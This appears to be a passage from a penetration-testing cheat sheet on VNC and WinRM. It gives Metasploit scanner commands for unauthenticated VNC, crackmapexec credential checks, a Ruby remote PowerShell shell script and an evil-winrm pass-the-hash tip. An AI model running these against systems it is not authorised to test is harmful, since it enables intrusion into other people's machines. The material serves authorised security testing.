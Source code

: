 ### Port 5800/5900 - VNC

Metasploit vnc_none_auth scanner scans a range for VNC servers that do not have any authentication set on them: 
```
use auxiliary/scanner/vnc/vnc_none_auth
show options
set RHOSTS <IP_ADDRESS>
```
Login to the vnc server with a password
```
vncviewer <IP_ADDRESS>
```

## Port 5985 - Windows Remote Managmement (WinRM)
Windows Remote Management is one component of the Windows Hardware Management features that manage server hardware locally and remotely. If you have credentials for the target machine, you can test if winrm will work with crackmapexec:
```
crackmapexec winrm <IP_ADDRESS> -u <USERNAME> -p <PASSWORD>
```
You can gain powershell execution using the [ruby win-rm shell](https://alionder.net/winrm-shell/) if you have credentials for the target machine (must have the [WinRM ruby library](https://github.com/WinRb/WinRM) installed):
```
require 'winrm'

conn = WinRM::Connection.new(
  endpoint: 'http://<IP_ADDRESS>:5985/wsman',
  user: '<DOMAIN\USERNAME>',
  password: '<PASSWORD>',
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        print "PS > "
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```

Another method by which you can leverage WinRM is through the [evil-winrm tool](https://github.com/Hackplayers/evil-winrm). Using this, you can log in with a username and password, so long as the user is in the "Remote Management User" group.  Conveniently, you can also pass a hash instead of a password.
